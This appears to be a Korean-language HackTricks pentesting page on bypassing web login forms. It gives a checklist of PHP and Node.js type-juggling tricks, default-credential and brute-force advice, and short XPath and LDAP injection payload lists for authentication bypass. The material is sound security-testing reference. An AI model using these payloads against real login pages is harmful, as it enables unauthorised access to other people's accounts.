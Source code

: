 # 로그인 우회

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/)은 **스페인**에서 가장 관련성 높은 사이버 보안 이벤트이며 **유럽**에서 가장 중요한 행사 중 하나입니다. **기술 지식을 촉진하는 임무**를 가지고 이 컨그레스는 모든 분야의 기술 및 사이버 보안 전문가들이 모이는 뜨거운 만남의 장소입니다.

{% embed url="https://www.rootedcon.com/" %}

## **정상 로그인 우회**

로그인 페이지를 찾으면, 이를 우회하기 위해 시도할 수 있는 몇 가지 기술이 있습니다:

* 페이지 내 **주석** 확인하기 (아래로 스크롤하고 오른쪽으로?)
* **제한된 페이지에 직접 접근**할 수 있는지 확인하기
* **매개변수를 전송하지 않기** (아무것도 전송하지 않거나 1개만 전송하기)
* **PHP 비교 오류 확인하기:** `user[]=a&pwd=b`, `user=a&pwd[]=b`, `user[]=a&pwd[]=b`
* **내용 유형을 json으로 변경**하고 json 값을 전송하기 (bool true 포함)
* POST가 지원되지 않는다는 응답을 받으면 **GET 요청으로 본문에 JSON을 전송**해 볼 수 있습니다. `Content-Type: application/json`
* nodejs의 잠재적 파싱 오류 확인하기 (읽어보세요 [**이것**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs는 해당 페이로드를 다음과 유사한 쿼리로 변환합니다: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` 이는 비밀번호 비트를 항상 true로 만듭니다.
* JSON 객체를 전송할 수 있다면 `"password":{"password": 1}`을 전송하여 로그인을 우회할 수 있습니다.
* 이 로그인을 우회하려면 여전히 **유효한 사용자 이름을 알고 전송해야** 한다는 점을 기억하세요.
* `mysql.createConnection`을 호출할 때 **`"stringifyObjects":true`** 옵션을 추가하면 **매개변수로 `Object`가 전달될 때 모든 예기치 않은 동작을 차단**할 수 있습니다.
* 자격 증명 확인하기:
* 사용 중인 기술/플랫폼의 [**기본 자격 증명**](../../generic-hacking/brute-force.md#default-credentials)
* **일반 조합** (root, admin, password, 기술 이름, 이러한 비밀번호 중 하나를 가진 기본 사용자).
* **Cewl**을 사용하여 사전을 만들고 **기본** 사용자 이름과 비밀번호(있는 경우)를 추가한 후 모든 단어를 **사용자 이름과 비밀번호**로 사용하여 무차별 대입 시도하기
* **더 큰 사전**을 사용하여 **무차별 대입**하기 (**[**무차별 대입**](../../generic-hacking/brute-force.md#http-post-form)**)

### SQL 인젝션 인증 우회

[여기에서 **SQL 인젝션**을 통해 로그인을 우회하는 여러 가지 팁을 찾을 수 있습니다.](../sql-injection/#authentication-bypass).

다음 페이지에서는 SQL 인젝션을 통해 로그인을 우회하기 위해 시도할 수 있는 **사용자 정의 목록**을 찾을 수 있습니다:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL 인젝션 인증 우회

[여기에서 **No SQL 인젝션**을 통해 로그인을 우회하는 여러 가지 팁을 찾을 수 있습니다.](../nosql-injection.md#basic-authentication-bypass)**.**

NoSQL 인젝션은 매개변수 값을 변경해야 하므로 수동으로 테스트해야 합니다.

### XPath 인젝션 인증 우회

[여기에서 **XPath 인젝션**을 통해 로그인을 우회하는 여러 가지 팁을 찾을 수 있습니다.](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection 인증 우회

[여기에서 **LDAP Injection**을 통한 로그인 우회를 위한 여러 가지 트릭을 찾을 수 있습니다.](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

페이지에 "**Remember Me**" 기능이 있는 경우, 그것이 어떻게 구현되어 있는지 확인하고 **다른 계정을 탈취**하는 데 악용할 수 있는지 확인하십시오.

### Redirects

페이지는 일반적으로 로그인 후 사용자를 리디렉션합니다. 그 리디렉션을 변경하여 [**Open Redirect**](../open-redirect.md)를 유발할 수 있는지 확인하십시오. 사용자를 귀하의 웹사이트로 리디렉션하면 일부 정보(코드, 쿠키 등)를 훔칠 수 있을지도 모릅니다.

## Other Checks

* 로그인 기능을 악용하여 **사용자 이름을 열거**할 수 있는지 확인하십시오.
* 비밀번호/**민감한** 정보 **양식** **입력**에서 **자동 완성**이 활성화되어 있는지 확인하십시오: `<input autocomplete="false">`

## Automatic Tools

* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/)은 **스페인**에서 가장 관련성이 높은 사이버 보안 이벤트이며 **유럽**에서 가장 중요한 행사 중 하나입니다. **기술 지식을 촉진하는 임무**를 가지고 이 회의는 모든 분야의 기술 및 사이버 보안 전문가들이 모이는 뜨거운 만남의 장소입니다.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
